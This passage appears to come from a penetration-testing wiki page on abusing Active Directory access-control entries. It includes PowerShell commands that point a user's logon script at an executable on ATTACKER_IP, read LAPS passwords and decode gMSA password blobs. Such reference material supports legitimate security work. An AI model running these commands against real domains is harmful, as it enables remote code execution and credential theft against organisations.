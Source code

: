 #### Target **GPO**

When applying to a GPO, this ACE can be abused to edit its settings and operate an [Immediate Scheduled Task attack](abusing-gpos.md#immediate-scheduled-task).

### GenericWrite

An attacker can make the user this ACE applies to execute a custom script at logon. This can be achieved with the Active Directory PowerShell module or with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# With Set-ADObject (Active Directory module)
Set-ADObject -SamAccountName 'user' -PropertyName scriptpath -PropertyValue "\\ATTACKER_IP\run_at_logon.exe"

# With Set-DomainObject (PowerView module)
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\ATTACKER_IP\run_at_logon.exe'} -Verbose
```

This can also be abused the same way as [`GenericAll`](abusing-aces.md#genericall) for [Targeted Kerberoasting](abusing-kerberos/kerberoast.md#targeted-kerberoasting) \(when applying to a user account\), for [Kerberos Resource-Based Constrained Delegation \(RBCD\)](abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) \(when applying to a computer account\) and for an [Immediate Scheduled Task attack](abusing-gpos.md#immediate-scheduled-task) \(when applying to a GPO\).

### ReadLAPSPassword

An attacker can read the LAPS password of the computer account this ACE applies to. This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

### ReadGMSAPassword

An attacker can read the GMSA password of the account this ACE applies to. This can be achieved with the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
```

### WriteDacl

An attacker can write a new ACE to the target object’s DACL \(Discretionary Access Control List\). This can give the attacker full control of the target object. This can be achieved with [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).
